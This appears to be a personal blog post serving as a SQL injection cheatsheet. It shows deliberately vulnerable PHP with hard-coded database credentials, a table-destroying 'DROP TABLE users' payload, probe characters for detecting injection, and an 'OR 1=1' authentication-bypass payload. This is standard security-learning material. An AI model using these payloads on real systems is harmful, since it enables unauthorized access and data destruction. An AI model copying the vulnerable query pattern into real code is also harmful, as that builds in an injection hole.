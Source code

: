 ```yaml
---
layout: post
title: "Cheatsheet-SQL-Injection"
description: Cheatsheet covering the fundamentals of SQL Injection.
---
```

<p>These cheatsheets serve as my personal quick reference. Therefore, they’re less organized than the box walkthroughs, but I’ve shared them in case others find them useful.</p>


<h2>SQL injection cheatsheet</h2>

<h3>Example of vulnerable PHP code</h3>
<p>User input is directly passed in the SQL query.</p>
<pre>
$conn = new mysqli("localhost", "root", "password", "users");
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
</pre>
<p>Example with regular user input:</p>
<pre>
select * from logins where username like '%admin'
</pre>
<p>Exploited by closing the ' ', need to enter a ';</p>
<pre>
'%1'; DROP TABLE users;'
</pre>
<p>Then, the query becomes:</p>
<pre>
select * from logins where username like '%1'; DROP TABLE users; -- ' (need to get rid of second ')
</pre>

<h3>Authentication bypass</h3>
<p>Example of query being used for authentication:</p>
<pre>
SELECT * FROM logins WHERE username='admin' AND password = 'admin';
</pre>

<h4>Verify whether application is vulnerable</h4>
<p>Insert one of the following payloads in one of the fields:</p>
<pre>
'
"
#
;
&#41;
</pre>
<p>Tip: Try URL-encoded as well</p>

<h4>Auth bypass with KNOWN username</h4>
<h5>METHOD: OR Injection</h5>
<p>The query will be something like this:</p>
<pre>
SELECT * FROM logins WHERE username=''' AND password = 'something'; --> Syntax error --> probably seen in site response
</pre>
<p>Bypassing of the authentication can be done with OR injection:</p>
<pre>
admin' OR '1'='1
</pre>
<p>Query becomes:</p>
<pre>
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='something';
</pre>